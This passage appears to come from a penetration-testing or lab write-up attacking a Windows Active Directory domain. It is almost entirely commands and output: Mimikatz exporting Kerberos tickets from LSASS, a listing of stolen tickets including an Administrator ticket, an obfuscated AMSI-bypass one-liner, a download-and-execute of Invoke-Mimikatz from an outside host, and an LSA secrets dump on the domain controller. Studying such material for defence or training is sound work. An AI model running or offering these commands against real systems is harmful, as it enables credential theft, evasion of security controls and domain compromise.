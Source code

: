 ```sh
mkdir tickets
```

then, export the tickets from the `lsa` process.

```sh
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

```sh
PS C:\Windows\system32> cd c:
PS C:\Windows\system32> cd /
PS C:\> cd C:\Users\devmanager\Desktop
PS C:\Users\devmanager\Desktop> mkdir tickets

    Directory: C:\Users\devmanager\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         7/3/2024   2:39 PM                tickets

PS C:\Users\devmanager\Desktop> cd .\tickets
PS C:\Users\devmanager\Desktop\tickets>
PS C:\Users\devmanager\Desktop\tickets> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

interestingly, there's an `Administrator` ticket.

```sh
    LastWriteTime         Length Name
    -------------         ------ ----
7/3/2024   2:39 PM          1641 [0:31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1705 [0:32ca4a]-0-0-40a50000-devmanager@ldap-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1751 [0:32ca4a]-0-1-40a50000-devmanager@LDAP-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1579 [0:32ca4a]-2-0-40e10000-devmanager@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1641 [0:357bef]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1709 [0:3e4]-0-0-40a50000-PRODSRV$@cifs-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1583 [0:3e4]-2-0-60a10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1583 [0:3e4]-2-1-40e10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1755 [0:3e7]-0-0-40a50000-PRODSRV$@cifs-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1747 [0:3e7]-0-1-40a50000.kirbi
7/3/2024   2:39 PM          1709 [0:3e7]-0-2-40a50000-PRODSRV$@LDAP-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1755 [0:3e7]-0-3-40a50000-PRODSRV$@LDAP-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1583 [0:3e7]-2-0-60a10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1583 [0:3e7]-2-1-40e10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi

```


[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'